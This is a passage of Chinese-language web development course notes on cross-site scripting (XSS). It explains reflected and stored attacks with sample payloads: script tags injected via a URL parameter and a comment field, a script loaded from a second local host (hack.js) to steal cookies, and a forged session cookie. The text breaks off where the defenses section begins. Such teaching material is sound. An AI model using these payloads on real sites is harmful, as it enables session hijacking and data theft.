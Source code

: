 `@touchmove.prevent

`

## 安全

### XSSCross Site Scripting

跨站脚本攻击 XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:利用虚假输入表单骗取用户个人信息。利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。显示伪造的文章或图片。

XSS 攻击分类反射型

- url 参数直接注入

```js
// 普通
//localhost:3000/?from=china
// alert尝试
//localhost:3000/?from=<script>alert(3)</script>
http: // 获取Cookie
//localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
http: // 短域名伪造
//dwz.cn
http: // 伪造cookie入侵 chrome
https: document.cookie =
  'kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0='
```

- 存储型 - 存储到 DB 后读取时注入

```js
// 评论
<script>alert(1)</script>
// 跨站脚本注入我来了
<script src="http://localhost:4000/hack.js"></script>
```

#### XSS 攻击的危害 - Scripting 能干啥就能干啥

- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料偷
- 取用户的秘密和登录态
- 欺骗用户

#### 防范手段

- HEAD

